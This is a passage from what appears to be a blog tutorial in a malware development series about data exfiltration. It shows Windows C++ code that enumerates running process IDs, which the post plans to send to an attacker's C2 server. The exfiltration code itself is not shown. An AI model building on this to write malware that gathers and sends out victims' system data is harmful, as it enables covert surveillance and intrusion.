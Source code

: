```yaml
---
title: "Malware Development: Crafting Digital Chaos 0x5: Data Exfiltration"
classes: wide
header:
  teaser:  /assets/images/sks.jpg
ribbon: black
description: "Article 6 of Malware Development series"
categories:
  - Malware Development
tags:
  - Malware Development
  - Data Exfiltration
  - Execution
  - Process Enumeration
  - WinAPI
  - C++
toc: true
---
```


In this article I am going to be exploring data exfiltration techniques, specifically we are going to obtain the processes running on the target system and send them to our C2 server.

# Process Enumeration

First we can start by writing the function that'll enumerate all the processes and send each process name and ID, over the connection channel that we are going to initiate.

This time we are going to use `EnumProcesses` API:

```cpp
BOOL EnumProcesses(
  [out] DWORD   *lpidProcess,
  [in]  DWORD   cb,
  [out] LPDWORD lpcbNeeded
);
```
This function retrieves the process identifier (PID) for each process object in the system. Then we can use APIs like `GetModuleBaseName` and `OpenProcess` to get the actual process name.

```cpp
    DWORD dwPsses[2046], dwPids, dwRl1, dwRl2;

    if (EnumProcesses(dwPsses, sizeof(dwPsses), &dwRl1) == 0x0) {
        printf("EnumProcesses failed with error: %x", GetLastError());
        return FALSE;
    }
```

After this call `dwPsses` will receives the list of process identifiers.

Next we can calculate the exact number of PIDs returned (I.e processes), we can divide the dwRl1 by the size of a DWORD.
